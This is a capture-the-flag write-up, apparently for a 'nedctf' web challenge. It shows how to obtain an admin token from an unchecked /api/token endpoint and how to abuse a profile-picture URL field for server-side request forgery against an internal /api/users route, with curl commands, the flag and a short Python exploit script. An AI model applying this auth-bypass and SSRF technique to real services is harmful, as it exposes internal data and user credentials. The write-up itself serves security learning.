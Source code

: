 Just reading the code, we can note the following things

- The flag is stored in `users['shanks']`
- `/api/token` is not verifying if the user exists or not, so we can get a token for any user and it's not checking if the request is coming from an internal IP/authorized user or not.
- `/api/users` will give the list of users and their passwords if the request is coming from an internal IP.
- `/set_profile_picture` will check if the response contains an image, it will set that profile picture for the user, if not, it will simply give the body of the response in the text.

Now, in order to exploit this, we'll do the following

1. Get a token for `admin` user
2. Make request to `/set_profile_picture` with the `profile_picture_url` as `http://127.0.0.1:5003/api/users`.
3. Read the flag.


### 1. Get a token for `admin` user

We can simply go to `/api/token?username=admin` and get the token for `admin` user. Do this, we can make a cURL request

```bash
$ curl -XGET -v "http://159.223.192.150:5003/api/token?username=admin"
```

![token](/static/writeups/nedctf/web/auth2.png)

Or, we can simply visit the [URL](http://159.223.192.150:5003/api/token?username=admin), and then we'll be redirect to `/dashboard`

![dashboard](/static/writeups/nedctf/web/auth3.png)

### 2. Make request to `/set_profile_picture` with the `profile_picture_url` as `http://127.0.0.1:5003/api/users`.

Now, on the dashboard, we have a simple form. So, inside the form, we can add the value as `http://127.0.0.1:5003/api/users` and submit the form.

![form](/static/writeups/nedctf/web/auth4.png)

### 3. Read the flag

In the response, we can see all the users being displayed, so we can see the flag

![flag](/static/writeups/nedctf/web/auth5.png)

```md
Flag: NCC{au7h_th3n_$$rf}
```

Now, let's write a python script to do this

```python:exploit.py
#!/usr/bin/env python3

import requests
import re

url = "http://159.223.192.150:5003"
print("[*] Fetching the admin jwt token: ", end='')
sess = requests.Session()
r = sess.get(f"{url}/api/token?username=admin")
print(sess.cookies.get_dict())

print(f"[*] Making request to /set_profile_picture")
r = sess.post(f"{url}/set_profile_picture", data={"profile_picture_url" : "http://127.0.0.1:5003/api/users"})
```